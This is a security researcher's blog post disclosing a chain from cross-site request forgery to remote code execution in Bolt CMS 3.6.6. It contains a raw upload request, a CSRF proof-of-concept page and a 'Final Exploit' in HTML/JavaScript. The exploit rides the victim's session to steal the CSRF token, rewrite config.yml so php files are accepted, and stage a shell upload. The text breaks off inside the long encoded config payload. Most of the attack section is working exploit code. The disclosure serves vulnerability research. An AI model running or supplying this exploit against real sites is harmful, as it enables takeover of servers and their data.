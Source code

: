 ```yaml
---
layout: post
Title: "From CSRF to RCE"
---
```

A few days ago I started taking interest in Bolt, a content management that quoting from its github, is a "[Sophisticated, lightweight & simple CMS][bolt]".

The team behind it really did a great job in making the CMS easy to use, and packed with a lot of features. I truly recommend you checking out their project if you are looking for a cool new CMS to use.

<img src="/images/2020-40-20-From-CSRF-to-RCE_01.png">

## Affected Version

Bolt CMS 3.6.6 - It is possible that lower versions are vulnerable as well.

## Explanation

It is common to find some vulnerabilities that alone don't actually create a good case, like CSRF and some types of XSS, so it's up to the attacker to make use of them and create creative ways to chain attacks.

In this post, I will be showing how it was possible to obtain Remote Code Execution through a Cross Site Request Forgery in Bolt CMS.

## Starting with CSRF

This flaw exists in the file upload section called "Files on the Stack", available for users that can manage content for the Homepage, Pages, Entries and Blocks.

You may think, CSRF on file upload? What can I do with this? Can I pwn the server sending PHP? No, BUT you can upload HTML files!

{% highlight http %}
POST /bolt/upload HTTP/1.1
Host: victim.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://victim.com/bolt/editcontent/homepage
X-Requested-With: XMLHttpRequest
Content-Length: 227
Content-Type: multipart/form-data; boundary=---------------------------6228775941835128519569528722
Connection: close
-----------------------------6228775941835128519569528722
Content-Disposition: form-data; name="files[]"; filename="test.html"
Content-Type: text/markdown

<html><script>alert("hi");</script></html>

-----------------------------6228775941835128519569528722--
{% endhighlight %}

This means that we, attackers, can execute arbitrary JavaScript in the same context as the application with the authenticated user privileges, which you will see how important it is for the attack.

A simple code to exploit CSRF and upload an HTML file is provided below (with the help of Burp Pro), it will upload a "test.html" file that can be located in a default path for every bolt installation: "/files/YEAR-MONTH" in my case: "victim.com/files/2019-04/test.html":

{% highlight html %}
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http:\/\/127.0.0.1\/bolt\/upload", true);
        xhr.setRequestHeader("Accept", "application\/json, text\/javascript, *\/*; q=0.01");
        xhr.setRequestHeader("Accept-Language", "en-US,en;q=0.5");
        xhr.setRequestHeader("Content-Type", "multipart\/form-data; boundary=---------------------------6228775941835128519569528722");
        xhr.withCredentials = true;
        var body = "-----------------------------6228775941835128519569528722\r\n" + 
          "Content-Disposition: form-data; name=\"files[]\"; filename=\"test.html\"\r\n" + 
          "Content-Type: text/markdown\r\n" + 
          "\r\n" + 
          "\x3chtml\x3e\x3cscript\x3ealert(\"hi\");\x3c/script\x3e\x3c/html\x3e\n" + 
          "\r\n" + 
          "-----------------------------6228775941835128519569528722--\r\n";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
  </body>
</html>
{% endhighlight %}

## About the RCE

Now comes the fun stuff, finding a vulnerability or a legitimate way to obtain remote code execution.

Looking for known vulnerabilities in the code did not result in anything interesting, at least for the time I spent in the analysis. When looking into some of the features available for privileged users, I discovered one that allows changes in a configuration file that controls what variables are allowed to be uploaded in the application.

The feature in question can be accessed inside the settings menu on "Configuration" and then "Main Configuration", or by accessing it directly: "/bolt/file/edit/config/config.yml"


{% highlight text %}
# Define the file types (extensions to be exact) that are acceptable for upload
# in either 'file' fields or through the 'files' screen.
accept_file_types: [ twig, html, js, css, scss, gif, jpg, jpeg, png, ico, zip, tgz, txt, md, doc, docx, pdf, epub, xls, xlsx, ppt, pptx, mp3, ogg, wav, m4a, mp4, m4v, ogv, wmv, avi, webm, svg]
{% endhighlight %}


As you see, an attacker with this level of access is able to bypass upload restrictions without much effort by including "php" extension inside the "accept_file_types" list.

Now, any file upload feature can be used to achieve our goal.

<img src="/images/2020-40-20-From-CSRF-to-RCE_02.png">

## Proof of Concept

<img src="/images/2020-40-20-From-CSRF-to-RCE_03.png">

Our exploration will have the following path:

1. Victim access attacker's URL
2. Victim Browser attemps to upload our "stager" HTML file
3. Victim is redirected to our stager page inside the server
4. Stager makes three requests:
   5. Obtain request token to bypass CSRF protection
   6. Use token to change allowed types list
   7. Upload our Shell
8. Attacker waits for shell with popcorn

<iframe width="912" height="513" src="https://www.youtube.com/embed/axwXrNyG4wI" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

# Final Exploit 

https://www.exploit-db.com/exploits/46664


{% highlight html %}

<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <script>
      function exploit() {

        var target = "http://127.0.0.1"

        var bolt_admin_url = target + "/bolt";

        var xhr = new XMLHttpRequest();
        xhr.open("POST", bolt_admin_url + "/upload", true);
        xhr.setRequestHeader("Accept", "application\/json, text\/javascript, *\/*; q=0.01");
        xhr.setRequestHeader("Accept-Language", "en-US,en;q=0.5");
        xhr.setRequestHeader("Content-Type", "multipart\/form-data; boundary=---------------------------130713229751679908527494159");
        xhr.withCredentials = true;
        var body = "-----------------------------130713229751679908527494159\r\n" + 
          "Content-Disposition: form-data; name=\"files[]\"; filename=\"stager.html\"\r\n" + 
          "Content-Type: text/plain\r\n" + 
          "\r\n" + 
          "\x3cscript\x3e\r\n" + 
          "\r\n" + 
          "function exploit(){\r\n" + 
          "\r\n" + 
          "        var bolt_admin_url = \""+bolt_admin_url+"\";\r\n" + 
          "\r\n" + 
          "        var xhr = new XMLHttpRequest();\r\n" + 
          "        \r\n" + 
          "        if(xhr) {\r\n" + 
          "            xhr.open(\'GET\', bolt_admin_url + \"/file/edit/config/config.yml\", true);\r\n" + 
          "            xhr.onreadystatechange = handler;\r\n" + 
          "            xhr.send();\r\n" + 
          "        }\r\n" + 
          "\r\n" + 
          "        function handler(){\r\n" + 
          "          if (xhr.readyState == 4 && xhr.status == 200) {\r\n" + 
          "                user_page = document.createElement(\'html\');\r\n" + 
          "                user_page.innerHTML = xhr.responseText;\r\n" + 
          "                token_input = (user_page.getElementsByTagName(\'input\')[0]).value;\r\n" + 
          "                console.log(\"Token obtained:\" + token_input);\r\n" + 
          "                ModifyAllowedExtensions(token_input);\r\n" + 
          "                UploadShell();\r\n" + 
          "          }\r\n" + 
          "        }\r\n" + 
          "\r\n" + 
          "        function ModifyAllowedExtensions(token) {\r\n" + 
          "\r\n" + 
          "            var xhr = new XMLHttpRequest();\r\n" + 
          "            xhr.open(\"POST\", bolt_admin_url + \"/file/edit/config/config.yml\", true);\r\n" + 
          "            xhr.setRequestHeader(\"Accept\", \"application\\/json, text\\/javascript, *\\/*; q=0.01\");\r\n" + 
          "            xhr.setRequestHeader(\"Accept-Language\", \"en-US,en;q=0.5\");\r\n" + 
          "            xhr.setRequestHeader(\"Content-Type\", \"application/x-www-form-urlencoded\");\r\n" + 
          "            xhr.withCredentials = true;\r\n" + 
          "            var body = \"file_edit%5B_token%5D=\"+token+\"&file_edit%5Bcontents%5D=%23+Database+setup.+The+driver+can+be+either+\\\'sqlite\\\'%2C+\\\'mysql\\\'+or+\\\'postgres\\\'.%0D%0A%23%0D%0A%23+For+SQLite%2C+only+the+databasename+is+required.+However%2C+MySQL+and+PostgreSQL%0D%0A%23+also+require+\\\'username\\\'%2C+\\\'password\\\'%2C+and+optionally+\\\'host\\\'+(+and+\\\'port\\\'+)+if+the+database%0D%0A%23+server+is+not+on+the+same+host+as+the+web+server.%0D%0A%23%0D%0A%23+If+you\\\'re+trying+out+Bolt%2C+just+keep+it+set+to+SQLite+for+now.%0D%0Adatabase%3A%0D%0A++++driver%3A+sqlite%0D%0A++++databasename%3A+bolt%0D%0A%0D%0A%23+The+name+of+the+website%0D%0Asitename%3A+A+sample+site%0D%0Apayoff%3A+The+amazing+payoff+goes+here%0D%0A%0D%0A%23+The+theme+to+use.%0D%0A%23%0D%0A%23+Don\\\'t+edit+the+provided+templates+directly%2C+because+they+_will_+get+updated%0D%0A%23+in+next+releases.+If+you+wish+to+modify+a+default+theme%2C+copy+its+folder%2C+and%0D%0A%23+change+the+name+here+accordingly.%0D%0Atheme%3A+base-2018%0D%0A%0D%0A%23+The+locale+that\\\'ll+be+used+by+the+application.+If+no+locale+is+set+the%0D%0A%23+fallback+locale+is+\\\'en_GB\\\'.+For+available+options%2C+see%3A%0D%0A%23+https%3A%2F%2Fdocs.bolt.cm%2Fother%2Flocales%0D%0A%23%0D%0A%23+In+some+cases+it+may+be+needed+to+specify+(non-standard)+variations+of+the%0D%0A%23+locale+to+get+everything+to+work+as+desired.%0D%0A%23%0D%0A%23+This+can+be+done+as+%5Bnl_NL%2C+Dutch_Netherlands%5D+when+specifying+multiple%0D%0A%23+locales%2C+ensure+the+first+is+a+standard+locale.%0D%0Alocale%3A+en_GB%0D%0A%0D%0A%23+Set+the+timezone+to+be+used+on+the+website.+For+a+list+of+valid+timezone%0D%0A%23+settings%2C+see%3A+http%3A%2F%2Fphp.net%2Fmanual%2Fen%2Ftimezones.php%0D%0A%23+timezone%3A+UTC%0D%0A%0D%0A%23+Set+maintenance+mode+on+or+off.%0D%0A%23%0D%0A%23+While+in+maintenance+mode%2C+only+users+of+level+editor+or+higher+can+access+the%0D%0A%23+site.%0D%0A%23%0D%0A%23+All+other+visitors+are+presented+with+a+notice+that+the+site+is+currently%0D%0A%23+offline.%0D%0A%23%0D%0A%23+The+default+template+file+can+be+found+in+%2Fapp%2Ftheme_defaults%2F+and+overridden%0D%0A%23+with+this+option+using+your+own+theme.%0D%0A%23%0D%0A%23+Note%3A+If+you\\\'ve+changed+the+filename%2C+and+your+changes+do+not+show+up+on+the%0D%0A%23+++++++website%2C+be+sure+to+check+for+a+config.yml+file+in+your+theme\\\'s+folder.%0D%0A%23+++++++If+a+template+is+set+there%2C+it+will+override+the+setting+here.%0D%0Amaintenance_mode%3A+false%0D%0Amaintenance_template%3A+maintenance_default.twig%0D%0A%0D%0A%23+The+hour+of+the+day+for+the+internal+cron+task+scheduler+to+run+daily%2C+weekly%2C%0D%0A%23+monthly+and+yearly+jobs.%0D%0A%23%0D%0A%23+Default%3A+3+(3+am)%0D%0Acron_hour%3A+3%0D%0A%0D%0A%23+If+your+site+is+reachable+under+different+urls+(say%2C+both+blog.example.org%2F%0D%0A%23+as+well+as+example.org%2F)%2C+it\\\'s+a+good+idea+to+set+one+of+these+as+the%0D%0A%23+canonical%2C+so+it\\\'s+clear+which+is+the+primary+address+of+the+site.%0D%0A%23%0D%0A%23+If+you+include+%60https%3A%2F%2F%60%2C+it+will+be+included+in+the+canonical+urls.%0D%0A%23canonical%3A+example.org%0D%0A%0D%0A%23+Bolt+can+insert+a+%3Clink+rel%3D%22shortcut+icon%22%3E+for+all+pages+on+the+site.%0D%0A%0D%0A%23+Note%3A+The+location+given+is+relative+to+the+currently+selected+theme.+If%0D%0A%23+++++++you+want+to+set+the+icon+yourself%2C+just+don\\\'t+enable+the+following+line.%0D%0A%23favicon%3A+images%2Ffavicon-bolt.ico%0D%0A%0D%0A%23+The+default+content+to+use+for+the+homepage%2C+and+the+template+to+render+it%0D%0A%23+with.+This+can+either+be+a+specific+record+(like+%60page%2F1%60)+or+a+listing+of%0D%0A%23+records+(like+%60entries%60).+In+the+chosen+\\\'homepage_template\\\'%2C+you+will+have%0D%0A%23+%60record%60+or+%60records%60+at+your+disposal%2C+depending+on+the+\\\'homepage\\\'+setting.%0D%0A%23%0D%0A%23+Note%3A+If+you\\\'ve+changed+the+filename%2C+and+your+changes+do+not+show+up+on%0D%0A%23+++++++the+website%2C+be+sure+to+check+for+a+theme.yml+file+in+your+theme\\\'s%0D%0A%23+++++++folder.+If+a+template+is+set+there%2C+it+will+override+the+setting+here.%0D%0Ahomepage%3A+homepage%2F1%0D%0Ahomepage_template%3A+index.twig%0D%0A%0D%0A%23+The+default+content+for+the+404+page.+Can+be+an+(array+of)+template+names+or%0D%0A%23+identifiers+for+records%2C+which+will+be+tried+until+a+match+is+found.%0D%0A%23%0D%0A%23+Note%3A+The+record+specified+in+this+parameter+must+be+set+to+\\\'published\\\'.%0D%0Anotfound%3A+%5B+not-found.twig%2C+block%2F404-not-found+%5D%0D%0A%0D%0A%23+The+default+template+for+single+record+pages+on+the%0D%0A%23+site.%0D%0A%23%0D%0A%23+Can+be+overridden+for+each+contenttype+and+for+each+record%2C+if+it+has+a%0D%0A%23+\\\'templateselect\\\'+field.%0D%0A%23%0D%0A%23+Note%3A+If+you\\\'ve+changed+the+filename%2C+and+your+changes+do+not+show+up+on+the%0D%0A%23+++++++website%2C+be+sure+to+check+for+a+config.yml+file+in+your+theme\\\'s+folder.%0D%0A%23+++++++If+a+template+is+set+there%2C+it+will+override+the+setting+here.%0D%0Arecord_template%3A+record.twig%0D%0A%0D%0A%23+The+default+template+and+amount+of+records+to+use+for+listing-pages+on+the%0D%0A%23+site.%0D%0A%23%0D%0A%23+Can+be+overridden+for+each+contenttype.%0D%0A%23%0D%0A%23+Note+1%3A+Sorting+on+TAXONOMY-pages+will+give+unexpected+results%2C+if+it+has+a%0D%0A%23+++++++++pager.%0D%0A%23+++++++++If+you+need+sorting+on+those%2C+make+sure+you+display+all+the+records+on+one%0D%0A%23+++++++++page.%0D%0A%23%0D%0A%23+Note+2%3A+If+you\\\'ve+changed+the+filename%2C+and+your+changes+do+not+show+up+on+the%0D%0A%23+++++++++website%2C+be+sure+to+check+for+a+config.yml+file+in+your+theme\\\'s%0D%0A%23+++++++++folder.+If+a+template+is+set+there%2C+it+will+override+the+setting+here.%0D%0Alisting_template%3A+listing.twig%0D%0Alisting_records%3A+6%0D%0Alisting_sort%3A+datepublish+DESC%0D%0A%0D%0A%23+Because+of+limitations+on+how+the+underlying+database+queries+work%2C+there+are%0D%0A%23+only+two+options+for+sorting+on+taxonomies.+\\\'ASC\\\'+for+roughly+%22oldest+first%22%0D%0A%23+and+\\\'DESC\\\'+for+roughly+\\\'newest+first\\\'.%0D%0Ataxonomy_sort%3A+DESC%0D%0A%0D%0A%23+Template+for+showing+the+search+results.+If+not+defined%2C+uses+the+settings+for%0D%0A%23+listing_template+and+listing_records.%0D%0A%23%0D%0A%23+Note%3A+If+you\\\'ve+changed+the+filename%2C+and+your+changes+do+not+show+up+on+the%0D%0A%23+++++++website%2C+be+sure+to+check+for+a+config.yml+file+in+your+theme\\\'s+folder.%0D%0A%23+++++++If+a+template+is+set+there%2C+it+will+override+the+setting+here.%0D%0Asearch_results_template%3A+search.twig%0D%0Asearch_results_records%3A+10%0D%0A%0D%0A%23+Add+jQuery+to+the+rendered+HTML%2C+whether+or+not+it\\\'s+added+by+an+extension.%0D%0Aadd_jquery%3A+false%0D%0A%0D%0A%23+The+default+amount+of+records+to+show+on+overview+pages.+Can+be+overridden%0D%0A%23+for+each+contenttype.%0D%0Arecordsperpage%3A+10%0D%0A%0D%0A%23+Settings+for+caching+in+parts+of+Bolt.%0D%0A%23+-+config%3A++++++++Caches+the+parsed+.yml+files+from+%2Fapp%2Fconfig.+It\\\'s+updated%0D%0A%23++++++++++++++++++immediately+when+one+of+the+files+changes+on+disk.+There%0D%0A%23++++++++++++++++++should+be+no+good+reason+to+turn+this+off.%0D%0A%23%0D%0A%23+-+templates%3A+++++Caches+rendered+templates.%0D%0A%23%0D%0A%23+-+request%3A+++++++Caches+rendered+pages+in+the+configured+HTTP+reverse+proxy%0D%0A%23++++++++++++++++++cache%2C+on+GET+%26+HEAD+requests.%0D%0A%23++++++++++++++++++By+default+this+is+handled+by+Syfmony+HTTP+Cache.%0D%0A%23%0D%0A%23+-+duration%3A++++++The+duration+(in+minutes)+for+the+\\\'templates\\\'+and+\\\'request\\\'%0D%0A%23++++++++++++++++++options.+default+is+10+minutes.+Note+that+the+duration+is+set%0D%0A%23++++++++++++++++++on+storing+the+cache.+By+lowering+this+value+you+will+not%0D%0A%23++++++++++++++++++invalidate+currently+cached+items.%0D%0A%23%0D%0A%23+-+authenticated%3A+Cache+\\\'templates\\\'+and+\\\'request\\\'+for+logged-on+users.+In+most%0D%0A%23++++++++++++++++++cases+you+should+*NOT*+enable+this%2C+because+it+will+cause%0D%0A%23++++++++++++++++++side-effects+if+the+website+shows+different+content+to%0D%0A%23++++++++++++++++++authenticated+users.%0D%0A%23%0D%0A%23+-+thumbnails%3A++++Caches+thumbnail+generation.%0D%0A%23%0D%0A%23+-+translations%3A++Caches+translation+files.+It+is+recommend+to+leave+this%0D%0A%23++++++++++++++++++enabled.+Only+if+you+develop+extensions+and+work+with%0D%0A%23++++++++++++++++++translation+files+you+should+turn+this+off.%0D%0Acaching%3A%0D%0A++++config%3A+true%0D%0A++++templates%3A+true%0D%0A++++request%3A+false%0D%0A++++duration%3A+10%0D%0A++++authenticated%3A+false%0D%0A++++thumbnails%3A+true%0D%0A++++translations%3A+true%0D%0A%0D%0A%23+Set+\\\'enabled\\\'+to+\\\'true\\\'+to+log+all+content+changes+in+the+database.%0D%0A%23%0D%0A%23+Unless+you+need+to+rigorously+monitor+every+change+to+your+site\\\'s+content%2C+it%0D%0A%23+is+recommended+to+keep+this+disabled.%0D%0Achangelog%3A%0D%0A++++enabled%3A+false%0D%0A%0D%0A%23+Default+settings+for+thumbnails.%0D%0A%23%0D%0A%23+Quality+should+be+between+0+(horrible%2C+small+file)+and+100+(best%2C+huge+file).%0D%0A%23%0D%0A%23+cropping%3A+++++++++++One+of+either+crop%2C+fit%2C+borders%2C+resize.%0D%0A%23+default_thumbnail%3A++The+default+size+of+images%2C+when+using%0D%0A%23+++++++++++++++++++++%7B%7B+record.image%7Cthumbnail()+%7D%7D%0D%0A%23+default_image%3A++++++The+default+size+of+images%2C+when+using%0D%0A%23+++++++++++++++++++++%7B%7B+record.image%7Cimage()+%7D%7D%0D%0A%23+allow_upscale%3A++++++Determines+whether+small+images+will+be+enlarged+to+fit%0D%0A%23+++++++++++++++++++++the+requested+dimensions.%0D%0A%23+browser_cache_time%3A+Sets+the+amount+of+seconds+that+the+browser+will+cache%0D%0A%23+++++++++++++++++++++images+for.+Set+it+to+activate+browser+caching.%0D%0A%23%0D%0A%23+Note%3A+If+you+change+these+values%2C+you+might+need+to+clear+the+cache+before%0D%0A%23+++++++they+show+up.%0D%0Athumbnails%3A%0D%0A++++default_thumbnail%3A+%5B+160%2C+120+%5D%0D%0A++++default_image%3A+%5B+1000%2C+750+%5D%0D%0A++++quality%3A+80%0D%0A++++cropping%3A+crop%0D%0A++++notfound_image%3A+bolt_assets%3A%2F%2Fimg%2Fdefault_notfound.png%0D%0A++++error_image%3A+bolt_assets%3A%2F%2Fimg%2Fdefault_error.png%0D%0A++++save_files%3A+false%0D%0A++++allow_upscale%3A+false%0D%0A++++exif_orientation%3A+true%0D%0A++++only_aliases%3A+false%0D%0A%23++++browser_cache_time%3A+2592000%0D%0A%0D%0A%23+Define+the+HTML+tags+and+attributes+that+are+allowed+in+\\\'cleaned\\\'+HTML.+This%0D%0A%23+is+used+for+sanitizing+HTML%2C+to+make+sure+there+are+no+undesirable+elements%0D%0A%23+left+in+the+content+that+is+shown+to+users.+For+example%2C+tags+like+%60%3Cscript%3E%60%0D%0A%23+or+%60onclick%60-attributes.%0D%0A%23+Note%3A+enabling+options+in+the+%60wysiwyg%60+settings+will+implicitly+add+items+to%0D%0A%23+the+allowed+tags.+For+example%2C+if+you+set+%60images%3A+true%60%2C+the+%60%3Cimg%3E%60+tag%0D%0A%23+will+be+allowed%2C+regardless+of+it+being+in+the+%60allowed_tags%60+setting.%0D%0Ahtmlcleaner%3A%0D%0A++++allowed_tags%3A+%5B+div%2C+span%2C+p%2C+br%2C+hr%2C+s%2C+u%2C+strong%2C+em%2C+i%2C+b%2C+li%2C+ul%2C+ol%2C+mark%2C+blockquote%2C+pre%2C+code%2C+tt%2C+h1%2C+h2%2C+h3%2C+h4%2C+h5%2C+h6%2C+dd%2C+dl%2C+dt%2C+table%2C+tbody%2C+thead%2C+tfoot%2C+th%2C+td%2C+tr%2C+a%2C+img%2C+address%2C+abbr%2C+iframe%2C+caption%2C+sub%2C+sup%2C+figure%2C+figcaption+%5D%0D%0A++++allowed_attributes%3A+%5B+id%2C+class%2C+style%2C+name%2C+value%2C+href%2C+src%2C+alt%2C+title%2C+width%2C+height%2C+frameborder%2C+allowfullscreen%2C+scrolling%2C+target%2C+colspan%2C+rowspan+%5D%0D%0A%0D%0A%23+Uploaded+file+handling%0D%0A%23%0D%0A%23+You+can+change+the+pattern+match+and+replacement+on+uploaded+files+and+if+the%0D%0A%23+resulting+filename+should+be+transformed+to+lower+case.%0D%0A%23%0D%0A%23+Setting+\\\'autoconfirm%3A+true\\\'+prevents+the+creation+of+temporary+lock+files%0D%0A%23+while+uploading.%0D%0A%23%0D%0A%23+upload%3A%0D%0A%23+++++pattern%3A+\\\'%5B%5EA-Za-z0-9%5C.%5D%2B\\\'%0D%0A%23+++++replacement%3A+\\\'-\\\'%0D%0A%23+++++lowercase%3A+true%0D%0A%23+++++autoconfirm%3A+false%0D%0A%0D%0A%23+Define+the+file+types+(extensions+to+be+exact)+that+are+acceptable+for+upload%0D%0A%23+in+either+\\\'file\\\'+fields+or+through+the+\\\'files\\\'+screen.%0D%0Aaccept_file_types%3A+%5B+php%2C+twig%2C+html%2C+js%2C+css%2C+scss%2C+gif%2C+jpg%2C+jpeg%2C+png%2C+ico%2C+zip%2C+tgz%2C+txt%2C+md%2C+doc%2C+docx%2C+pdf%2C+epub%2C+xls%2C+xlsx%2C+ppt%2C+pptx%2C+mp3%2C+ogg%2C+wav%2C+m4a%2C+mp4%2C+m4v%2C+ogv%2C+wmv%2C+avi%2C+webm%2C+svg%5D%0D%0A%0D%0A%23+Alternatively%2C+if+you+wish+to+limit+these%2C+uncomment+the+following+list%0D%0A%23+instead.+It+just+includes+file+types+%2F+extensions+that+are+harder+to+exploit.%0D%0A%23+accept_file_types%3A+%5B+gif%2C+jpg%2C+jpeg%2C+png%2C+txt%2C+md%2C+pdf%2C+epub%2C+mp3%2C+svg+%5D%0D%0A%0D%0A%23+If+you+want+to+\\\'brand\\\'+the+Bolt+backend+for+a+client%2C+you+can+change+some+key%0D%0A%23+variables+here%2C+that+determine+the+name+of+the+backend%2C+and+adds+a+primary%0D%0A%23+support%2Fcontact+link+to+the+footer.++Add+a+scheme%2C+like+%60mailto%3A%60+or%0D%0A%23+%60https%3A%2F%2F%60+to+the+email+or+URL.%0D%0A%23%0D%0A%23+Additionally+you+can+change+the+mount+point+for+the+backend%2C+either+for%0D%0A%23+convenience+or+to+obscure+it+from+prying+eyes.%0D%0A%23%0D%0A%23+The+Bolt+backend+is+accessible+as+%60%2Fbolt%2F%60+by+default.+If+you+change+it+here%2C%0D%0A%23+it+will+only+be+accessible+through+the+value+set+in+\\\'path\\\'.%0D%0A%23+Keep+the+path+simple%3A+lowercase+only%2C+no+extra+slashes+or+other+special%0D%0A%23+characters.%0D%0A%23+branding%3A%0D%0A%23+++++name%3A+SuperCMS%0D%0A%23+++++path%3A+%2Fadmin%0D%0A%23+++++provided_by%3A+%5B+supercool%40example.org%2C+%22Supercool+Webdesign+Co.%22+%5D%0D%0A%23+++++news_source%3A+http%3A%2F%2Fnews.example.org%0D%0A%23+++++news_variable%3A+news%0D%0A%0D%0A%23+Show+the+\\\'debug\\\'+nut+in+the+lower+right+corner+for+logged-in+user.+By+default%2C%0D%0A%23+the+debugbar+is+only+shown+to+logged-in+users.+Use+the+\\\'debug_show_loggedoff\\\'%0D%0A%23+option+to+show+it+to+all+users.+You+probably+do+not+want+to+use+this+in+a%0D%0A%23+production+environment.%0D%0Adebug%3A+true%0D%0Adebug_show_loggedoff%3A+true%0D%0Adebug_permission_audit_mode%3A+false%0D%0Adebug_error_level%3A+8181+++++++++++%23+equivalent+to+E_ALL+%26~+E_NOTICE+%26~+E_DEPRECATED+%26~+E_USER_DEPRECATED+%26~+E_WARNING%0D%0A%23+debug_error_level%3A+-1+++++++++++++++%23+equivalent+to+E_ALL%0D%0Adebug_error_use_symfony%3A+false++++++%23+When+set+to+true%2C+Symfony+Profiler+will+be+used+for+exception+display+when+possible%0D%0Adebug_trace_argument_limit%3A+4+++++++%23+Determine+how+many+steps+in+the+backtrace+will+show+(dump)+arguments.%0D%0A%0D%0A%23+error+level+when+debug+is+disabled%0D%0Aproduction_error_level%3A+8181+%23+%3D+E_ALL+%26~+E_NOTICE+%26~+E_WARNING+%26~+E_DEPRECATED+%26~+E_USER_DEPRECATED%0D%0A%0D%0A%23+System+debug+logging%0D%0A%23+This+will+enable+intensive+logging+of+Silex+functions+and+will+be+very+hard+on%0D%0A%23+performance+and+log+file+size.++++The+log+file+will+be+created+in+your+cache%0D%0A%23+directory.%0D%0A%23%0D%0A%23+Enable+this+for+short+time+periods+only+when+diagnosing+system+issues.%0D%0A%23+The+level+can+be+either%3A+DEBUG%2C+INFO%2C+NOTICE%2C+WARNING%2C+ERROR%2C+CRITICAL%2C+ALERT%2C+EMERGENCY%0D%0Adebuglog%3A%0D%0A++++enabled%3A+false%0D%0A++++filename%3A+bolt-debug.log%0D%0A++++level%3A+DEBUG%0D%0A%0D%0A%23+Use+strict+variables.+This+will+make+Bolt+complain+if+you+use+%7B%7B+foo+%7D%7D%2C%0D%0A%23+when+foo+doesn\\\'t+exist.%0D%0Astrict_variables%3A+false%0D%0A%0D%0A%23+There+are+several+options+for+giving+editors+more+options+to+insert+images%2C%0D%0A%23+video%2C+etc+in+the+WYSIWYG+areas.+But%2C+as+you+give+them+more+options%2C+that%0D%0A%23+means+they+also+have+more+ways+of+breaking+the+preciously+designed+layout.%0D%0A%23%0D%0A%23+By+default+the+most+\\\'dangerous\\\'+options+are+set+to+\\\'false\\\'.+If+you+choose+to%0D%0A%23+enable+them+for+your+editors%2C+please+instruct+them+thoroughly+on+their%0D%0A%23+responsibility+not+to+break+the+layout.%0D%0Awysiwyg%3A%0D%0A++++images%3A+false++++++++++++%23+Allow+users+to+insert+images+in+the+content.%0D%0A++++anchor%3A+false++++++++++++%23+Adds+a+button+to+create+internal+anchors+to+link+to.%0D%0A++++tables%3A+false++++++++++++%23+Adds+a+button+to+insert+and+modify+tables+in+the+content.%0D%0A++++fontcolor%3A+false+++++++++%23+Allow+users+to+mess+around+with+font+coloring.%0D%0A++++align%3A+false+++++++++++++%23+Adds+buttons+for+\\\'align+left\\\'%2C+\\\'align+right\\\'%2C+etc.%0D%0A++++subsuper%3A+false++++++++++%23+Adds+buttons+for+subscript+and+superscript%2C+using+%60%3Csub%3E%60+and+%60%3Csup%3E%60.%0D%0A++++embed%3A+false+++++++++++++%23+Allows+the+user+to+insert+embedded+video\\\'s+from+Youtube%2C+Vimeo%2C+etc.%0D%0A++++underline%3A+false+++++++++%23+Adds+a+button+to+underline+text%2C+using+the+%60%3Cu%3E%60-tag.%0D%0A++++ruler%3A+false+++++++++++++%23+Adds+a+button+to+add+a+horizontal+ruler%2C+using+the+%60%3Chr%3E%60-tag.%0D%0A++++strike%3A+false++++++++++++%23+Adds+a+button+